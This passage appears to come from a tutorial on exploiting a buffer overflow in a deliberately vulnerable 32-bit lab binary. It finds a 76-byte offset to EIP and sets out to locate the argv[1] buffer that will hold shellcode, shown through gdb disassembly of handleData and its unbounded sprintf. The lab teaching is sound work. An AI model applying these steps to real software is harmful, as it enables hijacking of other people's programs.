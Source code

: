 Perfect, EIP is exactly 0x42424242. Therefore, the offset is 76 bytes.

## Find buffer base address

We need to find the address of the buffer where our shellcode is stored.
This buffer is `argv[1]`, or `char *username` in the function `handleData()`.

Therefore we can just break anywhere in `handleData()`, and print the address
of the `username` parameter.

Check disassembly of handleData:
```sh
root@hlUbuntu32aslr:~/challenges/challenge11# gdb -q vulnerable
Reading symbols from vulnerable...(no debugging symbols found)...done.
(gdb) disas handleData
Dump of assembler code for function handleData:
   0x080485bd <+0>:	push   ebp
   0x080485be <+1>:	mov    ebp,esp
   0x080485c0 <+3>:	sub    esp,0x58
   0x080485c3 <+6>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080485ca <+13>:	sub    esp,0xc
   0x080485cd <+16>:	push   DWORD PTR [ebp+0xc]
   0x080485d0 <+19>:	call   0x804857b <checkPassword>
   0x080485d5 <+24>:	add    esp,0x10
   0x080485d8 <+27>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485db <+30>:	push   DWORD PTR [ebp+0x8]
   0x080485de <+33>:	push   0x8048781
   0x080485e3 <+38>:	push   0x8048785
   0x080485e8 <+43>:	lea    eax,[ebp-0x4c]
   0x080485eb <+46>:	push   eax
   0x080485ec <+47>:	call   0x8048460 <sprintf@plt>
   0x080485f1 <+52>:	add    esp,0x10
   0x080485f4 <+55>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485f8 <+59>:	jle    0x8048613 <handleData+86>
   0x080485fa <+61>:	sub    esp,0x4
   0x080485fd <+64>:	push   DWORD PTR [ebp-0xc]
   0x08048600 <+67>:	lea    eax,[ebp-0x4c]
   0x08048603 <+70>:	push   eax
   0x08048604 <+71>:	push   0x804878c
   0x08048609 <+76>:	call   0x8048420 <printf@plt>
   0x0804860e <+81>:	add    esp,0x10
   0x08048611 <+84>:	jmp    0x804862a <handleData+109>
   0x08048613 <+86>:	sub    esp,0x4
   0x08048616 <+89>:	push   DWORD PTR [ebp-0xc]
   0x08048619 <+92>:	lea    eax,[ebp-0x4c]
   0x0804861c <+95>:	push   eax
   0x0804861d <+96>:	push   0x80487b4
   0x08048622 <+101>:	call   0x8048420 <printf@plt>
   0x08048627 <+106>:	add    esp,0x10
   0x0804862a <+109>:	nop
   0x0804862b <+110>:	leave  
   0x0804862c <+111>:	ret    
End of assembler dump.
```
